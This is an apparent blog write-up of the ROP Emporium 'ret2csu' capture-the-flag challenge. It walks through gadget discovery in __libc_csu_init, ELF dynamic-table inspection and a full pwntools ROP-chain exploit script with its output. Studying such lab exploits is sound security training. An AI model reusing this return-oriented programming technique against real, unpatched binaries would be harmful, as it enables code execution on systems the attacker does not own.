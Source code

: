```yaml
---
layout: post
title:  "ROP Emporium: ret2csu"
date:   2021-03-16 11:33:56 +0200
categories: ropemporium
---
```


This is the final challenge of the series and this time we only have a ```64-bit``` target binary.
We are given a ```PDF``` file from a ```BlackHat``` presentation from 2018, which was a great read.
What is relevant out of that presentation is that the code inserted with the ```__libc_csu_init``` symbol can prove to be very useful.
Though in the present it has been patched, this binary comes with the old implementation and provides us with plenty of useful ROP gadgets.
Let's take a look at the disassembly and gather some relevant gadgets.
```
0000000000400640 <__libc_csu_init>:
  400640:       41 57                   push   r15
  400642:       41 56                   push   r14
  400644:       49 89 d7                mov    r15,rdx
  400647:       41 55                   push   r13
  400649:       41 54                   push   r12
  40064b:       4c 8d 25 9e 07 20 00    lea    r12,[rip+0x20079e]        # 600df0 <__frame_dummy_init_array_entry>
  400652:       55                      push   rbp
  400653:       48 8d 2d 9e 07 20 00    lea    rbp,[rip+0x20079e]        # 600df8 <__do_global_dtors_aux_fini_array_entry>
  40065a:       53                      push   rbx
  40065b:       41 89 fd                mov    r13d,edi
  40065e:       49 89 f6                mov    r14,rsi
  400661:       4c 29 e5                sub    rbp,r12
  400664:       48 83 ec 08             sub    rsp,0x8
  400668:       48 c1 fd 03             sar    rbp,0x3
  40066c:       e8 5f fe ff ff          call   4004d0 <_init>
  400671:       48 85 ed                test   rbp,rbp
  400674:       74 20                   je     400696 <__libc_csu_init+0x56>
  400676:       31 db                   xor    ebx,ebx
  400678:       0f 1f 84 00 00 00 00    nop    DWORD PTR [rax+rax*1+0x0]
  40067f:       00
  400680:       4c 89 fa                mov    rdx,r15
  400683:       4c 89 f6                mov    rsi,r14
  400686:       44 89 ef                mov    edi,r13d
  400689:       41 ff 14 dc             call   QWORD PTR [r12+rbx*8]
  40068d:       48 83 c3 01             add    rbx,0x1
  400691:       48 39 dd                cmp    rbp,rbx
  400694:       75 ea                   jne    400680 <__libc_csu_init+0x40>
  400696:       48 83 c4 08             add    rsp,0x8
  40069a:       5b                      pop    rbx
  40069b:       5d                      pop    rbp
  40069c:       41 5c                   pop    r12
  40069e:       41 5d                   pop    r13
  4006a0:       41 5e                   pop    r14
  4006a2:       41 5f                   pop    r15
  4006a4:       c3                      ret
  4006a5:       90                      nop
  4006a6:       66 2e 0f 1f 84 00 00    nop    WORD PTR cs:[rax+rax*1+0x0]
  4006ad:       00 00 00
```
We will also need the ```PLT``` entry of ```ret2win```:
```
0000000000400510 <ret2win@plt>:
  400510:       ff 25 0a 0b 20 00       jmp    QWORD PTR [rip+0x200b0a]        # 601020 <ret2win>
  400516:       68 01 00 00 00          push   0x1
  40051b:       e9 d0 ff ff ff          jmp    4004f0 <.plt>
```

Now, since we have to call our goal function with 3 arguments, namely:
```ret2win(0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d```

This can be easily achieved using the ```pop``` gadgets seen in the first disassembly, combined with the ```mov```'s.
One problem however is that the ```mov``` for ```rdi``` is missing and, instead, we are provided with a ```mov edi, r13d```.
Thus, we would only be able to pass ```0xdeadbeef``` as an argument.
Luckily, this can also be easily solved with a ```pop rdi``` gadget found through an overlapping instruction at the ```pop r15```.
```pop r15``` is comprised of the ```41 5f``` opcodes and ```5f``` corresponds to ```pop rdi```.
So, another useful gadget:

```0x4006a3: pop rdi; ret```

Another issue we are going to have is that if we are to use the ```mov``` gadgets, we will have to pass into ```r12```  an address that hold as value an address that points to some useless instructions that end with a ```ret```.

In order to find this we can simply look at the relocation and dynamic tables of the ELF file.
```
voidwalker@Abyss:[ret2csux64]** readelf --dynamic ret2csu

Dynamic section at offset 0xe00 contains 26 entries:
  Tag        Type                         Name/Value
 0x0000000000000001 (NEEDED)             Shared library: [libret2csu.so]
 0x0000000000000001 (NEEDED)             Shared library: [libc.so.6]
 0x000000000000001d (RUNPATH)            Library runpath: [.]
 0x000000000000000c (INIT)               0x4004d0
 0x000000000000000d (FINI)               0x4006b4
 0x0000000000000019 (INIT_ARRAY)         0x600df0
 0x000000000000001b (INIT_ARRAYSZ)       8 (bytes)
 0x000000000000001a (FINI_ARRAY)         0x600df8
 0x000000000000001c (FINI_ARRAYSZ)       8 (bytes)
 0x000000006ffffef5 (GNU_HASH)           0x400298
 0x0000000000000005 (STRTAB)             0x4003c0
 0x0000000000000006 (SYMTAB)             0x4002d0
 0x000000000000000a (STRSZ)              122 (bytes)
 0x000000000000000b (SYMENT)             24 (bytes)
 0x0000000000000015 (DEBUG)              0x0
 0x0000000000000003 (PLTGOT)             0x601000
 0x0000000000000002 (PLTRELSZ)           48 (bytes)
 0x0000000000000014 (PLTREL)             RELA
 0x0000000000000017 (JMPREL)             0x4004a0
 0x0000000000000007 (RELA)               0x400470
 0x0000000000000008 (RELASZ)             48 (bytes)
 0x0000000000000009 (RELAENT)            24 (bytes)
 0x000000006ffffffe (VERNEED)            0x400450
 0x000000006fffffff (VERNEEDNUM)         1
 0x000000006ffffff0 (VERSYM)             0x40043a
 0x0000000000000000 (NULL)               0x0
```
Out of everything we can see, the most useless (which makes it useful to us) is ```_fini``` function:
```
00000000004006b4 <_fini>:
  4006b4:       48 83 ec 08             sub    rsp,0x8
  4006b8:       48 83 c4 08             add    rsp,0x8
  4006bc:       c3                      ret
```

It basically does absolutely nothing at the end of its execution. Now we need to find where in the dynamic table it is located.

```
voidwalker@Abyss:[ret2csux64]** readelf -x .dynamic ret2csu

Hex dump of section '.dynamic':
  0x00600e00 01000000 00000000 01000000 00000000 ................
  0x00600e10 01000000 00000000 38000000 00000000 ........8.......
  0x00600e20 1d000000 00000000 78000000 00000000 ........x.......
  0x00600e30 0c000000 00000000 d0044000 00000000 ..........@.....
  0x00600e40 0d000000 00000000 b4064000 00000000 ..........@.....
  0x00600e50 19000000 00000000 f00d6000 00000000 ..........`.....
  0x00600e60 1b000000 00000000 08000000 00000000 ................
  0x00600e70 1a000000 00000000 f80d6000 00000000 ..........`.....
  0x00600e80 1c000000 00000000 08000000 00000000 ................
  0x00600e90 f5feff6f 00000000 98024000 00000000 ...o......@.....
  0x00600ea0 05000000 00000000 c0034000 00000000 ..........@.....
  0x00600eb0 06000000 00000000 d0024000 00000000 ..........@.....
  0x00600ec0 0a000000 00000000 7a000000 00000000 ........z.......
  0x00600ed0 0b000000 00000000 18000000 00000000 ................
  0x00600ee0 15000000 00000000 00000000 00000000 ................
  0x00600ef0 03000000 00000000 00106000 00000000 ..........`.....
  0x00600f00 02000000 00000000 30000000 00000000 ........0.......
  0x00600f10 14000000 00000000 07000000 00000000 ................
  0x00600f20 17000000 00000000 a0044000 00000000 ..........@.....
  0x00600f30 07000000 00000000 70044000 00000000 ........p.@.....
  0x00600f40 08000000 00000000 30000000 00000000 ........0.......
  0x00600f50 09000000 00000000 18000000 00000000 ................
  0x00600f60 feffff6f 00000000 50044000 00000000 ...o....P.@.....
  0x00600f70 ffffff6f 00000000 01000000 00000000 ...o............
  0x00600f80 f0ffff6f 00000000 3a044000 00000000 ...o....:.@.....
  0x00600f90 00000000 00000000 00000000 00000000 ................
  0x00600fa0 00000000 00000000 00000000 00000000 ................
  0x00600fb0 00000000 00000000 00000000 00000000 ................
  0x00600fc0 00000000 00000000 00000000 00000000 ................
  0x00600fd0 00000000 00000000 00000000 00000000 ................
  0x00600fe0 00000000 00000000 00000000 00000000 ................
```

Found it at ```0x600e48```. Great! Now we have a function for ```r12 + rbx * 8``` to dereference.

Now all that is left is bypassing that check ```cmp rbp, rbx```. To do that, I am going to ```pop``` a 0 into ```rbx``` and a 1 in ```rbp``` during the ```pop``` gadget.

Look like we are set! Let's build the script and grab the flag!

```python
#!/usr/bin/env python3

from pwn import *

context.arch = "amd64"
context.bits = 64
context.endian = "little"
context.os = "linux"
context.binary = "./ret2csu"

# mov rdx, r15; mov rsi, r14; mov edi, r13d; call qword [r12 + rbx * 8]; add rbx, 0x1;
# cmp rbp, rbx; jne 400680; add rsp, 0x8; pop rbx; pop rbp; pop r12; pop r13; pop r14; pop r15; ret
movs_call_r12 = p64(0x400680)
pops = p64(0x40069a) # pop rbx; pop rbp; pop r12; pop r13; pop r14; pop r15; ret
fini = p64(0x600e48) # address of _fini from .dynamic
ret2win = p64(0x400510) # ret2win@plt

payload = b'A' * 40
payload += pops
payload += p64(0)
payload += p64(1)
payload += fini
payload += p64(0xdeadbeefdeadbeef)
payload += p64(0xcafebabecafebabe)
payload += p64(0xd00df00dd00df00d)
payload += movs_call_r12
payload += p64(0) * 7
payload += p64(0x4006a3) # pop rdi; ret
payload += p64(0xdeadbeefdeadbeef)
payload += ret2win

e = context.binary

io = e.process()

print(io.recvuntil(">"))

io.sendline(payload)

print(io.recvrepeat())

with open("payload", "wb") as file:
    file.write(payload)
```

Aaaaaand the flag:

```
voidwalker@Abyss:[ret2csux64]** ./exploit.py
[*] '/home/voidwalker/ROPEmporium/ret2csux64/ret2csu'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RUNPATH:  b'.'
[+] Starting local process '/home/voidwalker/ROPEmporium/ret2csux64/ret2csu': pid 30764
b'ret2csu by ROP Emporium\nx86_64\n\nCheck out https://ropemporium.com/challenge/ret2csu.html for information on how to solve this challenge.\n\n>'
[*] Process '/home/voidwalker/ROPEmporium/ret2csux64/ret2csu' stopped with exit code 0 (pid 30764)
b' Thank you!\nROPE{a_placeholder_32byte_flag!}\n'
```

And with this we end our ```ROPEmporium``` series. This last challenge was interesting, but the most difficult was definetely the ```64-bit``` binary for ```fluff``` .
This was a great learning experience and I hope other binaries will be added soon. :)
